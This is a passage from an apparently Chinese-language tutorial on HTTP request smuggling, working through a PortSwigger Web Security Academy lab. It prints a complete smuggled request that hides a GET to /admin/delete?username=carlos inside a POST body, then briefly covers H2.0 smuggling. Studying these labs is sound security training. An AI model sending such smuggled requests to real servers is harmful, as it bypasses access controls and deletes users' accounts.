 ```bash
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

[![](assets/1705301772-bf5035a4d62feae56fd51c9989633e70.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182738-8a43d4f2-b2c7-1.png)  
[![](assets/1705301772-7c916b4a20ded981621fba3aaa472805.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182746-8efcf514-b2c7-1.png)  
完成解题：  
[![](assets/1705301772-11de6f90d3cc6197300c76acdd6c7f38.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182758-961d2dc8-b2c7-1.png)

## H2.0 走私

如果后端服务器忽略已降级请求的 Content-Length 标头，则将 HTTP/2 请求降级为 HTTP/1 的网站可能容易受到等效的"H2.0"问题的攻击，这里不再赘述，有兴趣的可以看之前的《HTTP/2 请求走私深入刨析》和《请求走私一篇通》进行了解

## CSD 攻击
